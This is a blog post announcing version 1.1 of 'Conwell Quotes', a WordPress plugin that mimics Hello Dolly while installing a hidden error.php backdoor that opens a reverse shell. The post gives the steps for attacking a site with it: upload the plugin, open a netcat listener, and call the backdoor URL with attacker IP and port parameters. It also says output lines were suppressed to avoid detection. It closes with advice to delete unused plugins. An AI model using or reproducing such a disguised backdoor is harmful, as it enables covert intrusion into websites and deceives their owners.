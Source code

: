 ```yaml
---
author: kylepott
date: 2019-05-07 01:33:19+00:00
draft: false
title: Conwell Quotes v1.1
type: post
url: /2019/05/07/conwell-quotes-v1-1/
categories:
- Open Source
- WordPress
---
```


![](https://technicalagain.com/wp-content/uploads/2019/04/Screenshot-from-2019-04-14-14-34-00.png)
![](https://technicalagain.com/wp-content/uploads/2019/04/Screenshot-from-2019-04-14-14-33-29.png)


Conwell Quotes is a malicious WordPress plugin that hides a reverse shell in a backdoor behind legitimate plugin functionality. This is used for offensive security purposes.

This is an update to version 1.1. This update now allows you to pass your ip and port as URL parameters rather than updating the error.php file prior to upload.

http://example.com/wp-content/plugins/conwell/error.php?ip=XX.XXX.XXX.X&port=XXXX

You can find the [open source code on GitHub](https://github.com/kylepott/Conwell-Quotes).

Modeled after the Hello Dolly plugin which comes packaged on all new WordPress installations, Conwell Quotes displays a random quote on each page of the WordPress admin portal based on Conwell's _Acres of Diamonds_ (which is one of my favorite books). It also uploads an _error.php_ backdoor that can be used to open a reverse TCP shell. The reverse shell code was mostly written by [Pen Test Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). The print lines have been either commented out, suppressed, or slightly modified to avoid detection.


### Offensive Security Use


Upload the plugin to Wordpress, use netcat to open a listener on your attack machine, and then open http://example.com/wp-content/plugins/conwell/error.php?ip=XX.XXX.XX.XX&port=XXXX in a browser after changing the IP and port to match your attacker machine. The screen will most likely clock, but will not display an error message that tips off the reverse shell.

![](https://technicalagain.com/wp-content/uploads/2019/04/Screenshot-from-2019-04-14-14-05-55.png)



### Note


Some hosts, like Bluehost, have their WordPress accounts on non-dedicated IPs which means they have nearly all ports blocked. You may not be able to use the malicious shell in _error.php_. However, the legitimate functionality in Conwell Quotes will still work and the user will not receive any error message.

To get access to the reverse shell, the plugin does not need to be activated, it simply needs to be installed. Yet another good reason to delete out any unused WordPress plugins.

_Do this one thing._

Make sure you delete, and don't just deactivate, unused WordPress plugins. This is a perfect example of the malicious code residing in the plugin even if it is deactivated.
